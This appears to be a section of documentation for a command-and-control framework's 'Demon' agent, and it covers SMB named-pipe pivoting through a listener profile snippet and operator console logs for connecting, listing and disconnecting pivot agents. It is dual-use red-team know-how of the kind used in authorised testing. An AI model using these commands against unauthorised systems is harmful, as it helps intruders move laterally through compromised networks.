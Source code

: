 # 11. Pivoting

You can create an SMB listener via the profile:
```yaotl
Listeners {
    Smb {
        Name     = "smb"
        PipeName = "demon_pipe"
    }
}
```
You can set the name of the pipe to whatever you like.  

Once you create a pivot agent and run it on some machine (in this case, 10.10.10.15), you can connect to it by running `pivot connect <ip> <pipe name>`:  
```
20/08/2023 10:38:13 [operator] Demon » pivot connect 10.10.10.15 demon_pipe
[*] [4C05B812] Tasked demon to connect to a smb pivot: \\10.10.10.15\pipe\demon_pipe
[+] [SMB] Connected to pivot agent [3c065850]---[600c56c8]
```

To list all existing pivot connections on an agent, run `pivot list`
```
20/08/2023 10:42:44 [operator] Demon » pivot list a
[*] [2B487CED] Tasked demon to list connected agent pivots
[*] Pivot List [1]: 

 DemonID    Named Pipe
 --------   -----------
 600c56c8    \\10.10.10.15\pipe\demon_pipe
```

To disconnect an SMB agent, run `pivot disconnect <agent id>`
```
20/08/2023 10:44:13 [operator] Demon » pivot disconnect 600c56c8
[*] [321FC5A7] Tasked demon to disconnect a smb pivot: 600c56c8
[*] [SMB] Agent disconnected 600c56c8
```

Disconnecting from an SMB agent will not kill the process, it will simply wait for someone to reconnect.  

Remember to consult the `help` command when in doubt:
```
20/08/2023 10:48:58 [operator] Demon » help pivot

 - Command       :  pivot
 - Description   :  pivoting module
 - Behavior      :  API Only
 - Usage         :  pivot [sub command]
 - Example       :  pivot connect SPIDERS-PC agent_6d6e

  Command                        Description      
  ---------                      -------------     
  list                           list connected agent pivots
  connect                        connect to a pivoting agent
  disconnect                     disconnect from a pivoting agent
```
